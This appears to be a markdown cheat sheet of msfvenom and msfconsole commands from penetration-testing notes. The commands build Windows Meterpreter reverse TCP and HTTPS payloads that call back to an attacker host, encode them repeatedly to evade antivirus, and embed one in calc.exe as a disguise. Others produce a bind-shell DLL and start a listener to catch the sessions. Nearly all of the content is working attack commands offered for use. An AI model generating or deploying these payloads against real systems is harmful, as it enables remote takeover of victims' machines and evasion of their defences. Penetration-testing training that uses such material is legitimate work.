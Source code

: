 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```


##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Bind Shell - DLL Payload:
```
msfvenom --platform Windows -p windows/shell_bind_tcp LPORT=443 -f DLL -o bind_shell.dll
```

#### Encoding:

```
-e encoder type
-i how man times to encode
```
#### Filler and bad characters:
```
-n the amound of bytes to add at the beginning
-b exclude bad chars (\x00 common filler, searched for by AV)
```


##### MSF Console - start a listener/handler:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
